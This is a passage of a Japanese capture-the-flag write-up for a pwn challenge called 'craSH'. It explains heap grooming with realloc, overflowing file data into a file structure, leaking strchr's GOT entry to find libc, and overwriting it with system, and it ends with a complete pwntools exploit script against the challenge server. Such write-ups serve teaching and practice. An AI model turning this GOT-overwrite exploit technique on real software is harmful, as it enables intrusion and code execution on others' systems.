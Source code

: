 xinetd型の問題であるのでこれで十分である。`strchr`のアドレスをleakさせることができ、libcは与えられている。よってこれでflagが手に入る。

#### b

さて問題はheap overflowによる任意のアドレスの読み書きである。
プログラムをcrashさせてしまうと失敗となるので、必要な場所のみを正確に書き換えなければならない。

今回はどの領域も小さいので、chunkのmetadataはそのchunkの大きさのみである。これを壊さないように気を付けるだけでよい。特にchunkの大きさは`0x20`となり、gdbで覗くと`PREV_INUSE` bitを乗せた`0x21 ('!')`が一定感覚で見られるだろう。

ファイルの中身のdataをoverflowさせfile構造体のfieldを書き換えたいので、heap上でこのふたつのchunkが連続するように準備する必要がある。
単純にファイルを作製していくと確保の順番の影響でそうはならないが、一旦確保した領域を`realloc`で拡張する際に移動させるとこれが可能になる。例えば`echo AAAA > $a \n echo BBBB > $b \n echo AAAAAAAAAAAAAAAAAAAAAAA > $a \n echo CCCC > $c \n`とするとファイル`$b`のdataの直後にファイル`$c`のfile構造体が置かれる。
gdb上で確認したいときは`break quit`として`run <<<$'echo AAAA > $a \n echo BBBB > $b \n echo AAAAAAAAAAAAAAAAAAAAAAA > $a \n echo CCCC > $c \n exit \n'`とするとよい。

そして攻撃をする。`$c`の`.data`に`strchr`のgot `0x603038`を入れる。
`raw_cat`がNULL文字を許容し改行文字を付与しないことを使って、`$a`, `$b`, `$c`にそれぞれ`\x38\x30\x60\0\0\0\0` (8 byte), ` ` (0 byte), `\x21\0\0\0\0\0\0\0` (8 byte)を書き込み、この状態から`cat $c $b $b $a > $b`とする。$8 + 0 + 0 + 8$が`$b`の長さに代入され、$8 + 16 + 16 + 8$ byteが`$b`に書き込まれる。最後の$8$ byteは`strchr`のgotのアドレスであり書き込みは成功し、他の部分も適当な値が書き込まれ検知されない。
もしchunkのheaderを壊してしまうと`realloc`の際に落ちるので注意。

ここから`cat $c`とすると`strchr`のアドレスが得られ、これにより`system`のアドレスが計算できるので、これを`$c`に書き戻せばよい。

### 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('--remote', action='store_true')
args = parser.parse_args()

context.log_level = 'debug'
if args.remote:
    p = remote('210.146.64.35', 31337)
else:
    p = process(['./craSH'])

strchr_got_plt = 0x603038
p.send('echo AAAA > $a \n'
        + 'echo BBBB > $b \n'
        + 'echo AAAAAAAAAAAAAAAAAAAAAAA > $a \n'
        + 'echo CCCC > $c \n'
        + 'cat > $a \n' + p64(strchr_got_plt) + '\x04'
        + 'cat > $b \n\x04'
        + 'cat > $c \n\x21\0\0\0\0\0\0\0\x04'
        + 'cat $c $b $b $a > $b \n'
        + 'echo done \n')
p.recvuntil('done')
p.recvuntil('$ ')
p.send('cat $c \n')
strchr = u64(p.recvuntil('$ ')[:8])
libc = strchr - 0x86e20 - 0x30
system = libc + 0x46640
print(hex(strchr))
print(hex(libc))
print(hex(system))
p.send('cat > $c \n' + p64(system) + '\x04')
# p.send('ls\n') # shellscript
p.send('cat flag2_hard_to_guess_lolololol.txt\n') # shellscript
p.send('exit\n')
p.recvall()
```

[^1]: かなり偶然上手くいっただけっぽい。